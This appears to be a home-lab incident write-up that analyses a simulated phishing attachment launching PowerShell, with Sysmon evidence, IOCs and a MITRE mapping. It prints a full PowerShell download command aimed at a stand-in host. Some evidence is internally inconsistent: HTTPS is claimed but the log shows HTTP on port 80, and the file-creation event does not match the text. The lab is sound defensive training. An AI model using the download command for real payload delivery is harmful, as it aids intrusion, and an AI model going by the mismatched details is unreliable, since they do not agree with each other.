




# Suspicious Email Payload Delivery

## 1. Scenario Overview
A user in the Accounts department received a phishing email containing an HTML attachment named **invoice.html**.  
When opened, the attachment executed embedded script that launched **PowerShell**, which then downloaded additional content from an external domain. This lab simulates a realistic phishing‑based initial access attempt and demonstrates how Sysmon logs reveal script‑based payload delivery.

---

## 2. Incident Timeline
1. User received a phishing email with an invoice‑themed HTML attachment  
2. User opened the attachment  
3. Embedded script triggered **PowerShell execution**  
4. PowerShell initiated outbound HTTPS communication  
5. A file named `invoice.html` was written to the user’s Documents directory  

---

## 3. Attack Flow Diagram
Phishing Email  
  ↓  
User Opens Attachment  
  ↓  
PowerShell Execution  
  ↓  
Outbound Network Connection  
  ↓  
File Download (`invoice.html`)

---

## 4. Evidence Collection

### 4.1 PowerShell Execution
The HTML attachment triggered PowerShell instead of a browser — an indicator of malicious behaviour.

Screenshot:  

---

### 4.2 File Creation
PowerShell wrote a file named `invoice.html` to a user accessible directory.

Screenshot:  

---

## 5. Sysmon Evidence

### Event ID 1 — Process Creation
- **Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`  
- **CommandLine:**  

powershell.exe -NoProfile -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
(New-Object Net.WebClient).DownloadFile('https://example.com', '$env:USERPROFILE\Documents\Phishing_Test\invoice.html')"

- **User:** `DESKTOP-NJTJAHZ\windows11`

Screenshot:  

---

### Event ID 3 — Network Connection
- **Image:** `powershell.exe`  
- **DestinationHostname:** example.com  
- **DestinationPort:** 80  
- **Protocol:** HTTP  

Screenshot:  

---

### Event ID 11 — File Creation
- **Image:** `powershell.exe`  
- **TargetFilename:**  
`C:\Users\windows11\AppData\Local\Temp\__PSScriptPolicyTest_rc5tv5x1.dxt.ps1`

---

## 6. Indicators of Compromise (IOCs)
- **Domain:** example.com  
- **Process:** powershell.exe  
- **File:** invoice.html  

---

## 7. MITRE ATT&CK Mapping

### **T1566 – Phishing (Initial Access)**
User interaction with an invoice‑themed attachment triggered execution — a common phishing technique.

### **T1059.001 – PowerShell (Execution)**
Sysmon Event ID 1 confirms scripted PowerShell execution retrieving external content.

### **T1071.001 – Web Protocols (Command & Control)**
Outbound HTTPS communication to an external domain aligns with typical C2 behaviour.

### **T1036 – Masquerading (Defense Evasion)**
The downloaded file used a benign‑looking name (`invoice.html`) to increase user trust.

---

## 8. Analysis
This lab demonstrates how phishing attachments can trigger script‑based payload delivery.  
User interaction with the HTML file resulted in:

- PowerShell execution  
- Outbound network communication  
- File creation  

The behaviour matches common phishing and initial payload delivery patterns.

---

## 9. Response Actions
- Isolated the affected endpoint  
- Reviewed Sysmon logs for related activity  
- Confirmed no additional payloads were retrieved  
- Recommended user awareness training  
- Suggested password reset as precaution  

---

## 10. Lessons Learned
- PowerShell‑based payload delivery is common in phishing campaigns  
- Monitoring scripting engines is essential for early detection  
- Correlating process execution, network activity, and file creation provides strong detection coverage  
